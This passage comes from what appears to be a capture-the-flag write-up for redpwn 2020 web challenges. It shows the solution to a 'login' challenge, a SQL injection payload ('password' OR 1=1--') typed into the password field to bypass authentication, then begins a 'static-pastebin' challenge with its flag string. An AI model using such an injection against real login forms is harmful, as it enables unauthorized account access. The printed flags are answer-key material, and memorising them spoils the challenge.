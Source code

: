 ```
user: whatever_you_want
password: password' OR 1=1--
```

Pop-up with the flag appears

![SQLInjection done](https://github.com/s-rodriguez/ctfs/blob/master/ctfs/redpwn2020/web/login/screenshots/login_sqli.png)

---

## static-pastebin

### Flag
```
flag{54n1t1z4t10n_k1nd4_h4rd}
```

### Introduction
We are given a web page that accepts any kind of input, with a button that will "store" the text.
